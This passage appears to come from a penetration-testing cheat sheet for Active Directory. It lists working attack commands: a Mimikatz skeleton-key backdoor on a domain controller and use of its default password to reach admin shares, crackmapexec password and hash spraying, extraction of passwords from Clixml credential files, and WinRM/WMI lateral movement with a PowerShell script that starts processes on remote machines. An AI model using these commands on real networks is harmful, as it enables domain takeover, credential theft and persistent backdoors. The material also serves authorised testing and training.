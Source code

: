 
### Kerberos Backdoors / Kerberos Skeleton

1. `privilege::debug`
2. `misc::skeleton`
Accessing the forest
- the default password is 'mimikatz', some examples:
  - `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz`
  - `dir \\Desktop-1\c$ /user:Machine1 mimikatz`


### Testing found credentials

- `crackmapexec smb <target_IP> -u usernames.txt -p passwords.txt --continue-on-success`
  - test `impacket-psexec` on success
- `crackmapexec winrm <target_IP> -u users.txt -p passwords.txt --continue-on-success`
  - test `evil-winrm` on success
- `crackmapexec smb <target_IP> -u usernames.txt -H hashes.txt --continue-on-success`
  - test the found hashes
- `runas.exe /netonly /user:<domain>\<username> cmd.exe`
- `xfreerdp /u:<username> /p:<password> /cert:ignore /v:<target_IP>`
- Note for post-exploitation: you might find an `.xml` file like `username.xml`. To test it:
  1. `$Credential = Import-Clixml -Path ./username.xml`
  2. `$Credential.GetNetworkCredential().password`
  - The last command, try it even randomly before saving something in `$credential`, you never know


## Lateral Movement Techniques and Pivoting

### Find-PSRemotingLocalAdminAccess

Identify local admin privileges on other machines
1. `. C:\path\to\Find-PSRemotingLocalAdminAccess.ps1`
2. `Find-PSRemotingLocalAdminAccess`
3. Connect to that machine `winr -r:<machine> cmd`

### WMI and WinRM

1. Create a PSCredential object that stores session's username and password
   ```PowerShell
   $username = '<username>';
   $password = '<password>';
   $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
   $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
   ```
2. Create a Common Information Model
   ```PowerShell
   $options = New-CimSessionOption -Protocol DCOM
   $session = New-Cimsession -ComputerName <IP> -Credential $credential -SessionOption $options
   $command = 'calc';
   ```
3. Tie all together with `Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};`
